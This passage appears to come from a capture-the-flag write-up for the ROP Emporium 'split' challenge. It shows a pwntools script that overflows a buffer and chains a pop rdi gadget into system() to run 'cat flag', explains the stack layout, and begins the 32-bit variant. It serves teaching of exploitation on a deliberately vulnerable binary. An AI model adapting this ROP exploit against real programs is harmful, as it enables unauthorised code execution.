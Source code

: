
``` python
from pwn import *

context.binary = elf = ELF('./split')
offset = 40

flag_string = 0x601060
pop_rdi     = 0x4007c3
call_system = 0x40074b

payload = b'c'*offset+p64(pop_rdi)+p64(flag_string)+p64(call_system)

p = elf.process()
p.recv()
p.sendline(payload)
log.info(p.recvall())
```

We can see that here in the payload we are creating a little rop chain. First we place the address of the pop_rdi gadget that will pop the value 
on the stack (placed right after) into the rdi register, than return to call_system function.


```
after our payload
               ret
[buffer ][ebp][pop_rdi][cat_flag_pointer][call_system]

we return from the pwnme and we pop the saved rip 
(that now contains the address of the gadget pop rdi)

so the stack is like this and rip point to pop rdi
[cat_flag_pointer][call_system]

now we have rdi = cat_flag_pointer
and the stack is arranged like this

[call_system]

now we execute the ret of the gadget
and we jump into call_system with 
rdi set to /bin/cat/flag
```


# x86 (32 bit) architecture
The main difference here is that in this architecture the argument to the function are passed trough the stack.
We have an offset of 44 bytes [here](https://tizianocolagrossi.github.io/rop-emporium-ret2win/) I show how this offset can be found.

This is the disassebly of the usefulFunction in split32:
